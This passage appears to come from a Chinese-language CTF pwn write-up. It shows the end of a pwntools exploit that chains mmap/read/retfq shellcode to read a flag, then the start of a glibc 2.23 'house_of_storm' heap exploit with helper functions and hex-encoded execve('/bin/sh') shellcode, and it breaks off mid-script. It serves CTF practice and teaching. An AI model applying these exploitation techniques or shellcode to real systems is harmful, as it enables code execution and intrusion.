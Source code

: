 ```python
push 0x40404040
pop rax
push rax
'''

shellcode  = shellcode_mmap
shellcode += append
shellcode += shellcode_read
shellcode += append

shellcode += shellcode_retfq
shellcode += append
shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))

sla("shellcode: ",shellcode)
sl(shellcode_x86 + 0x29*'\x90' + shellcode_flag)# read 0x70
p.interactive()
```

## house_of_storm

![image-20220718221809838](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220718221809838.png)

标准的house_of_storm范式，这种技巧在2.23下实现任意地址申请，且不需要伪造size头(区别于常见的7fsize头伪造)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'

p = process("./house_of_storm")
elf = ELF("./house_of_storm")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size):
	sla("Your choice?",1)
	sla("What size do you want?",size)

def edit(idx,con):
	sla("Your choice?",3)
	sla("Which one do you want to modify?",idx)
```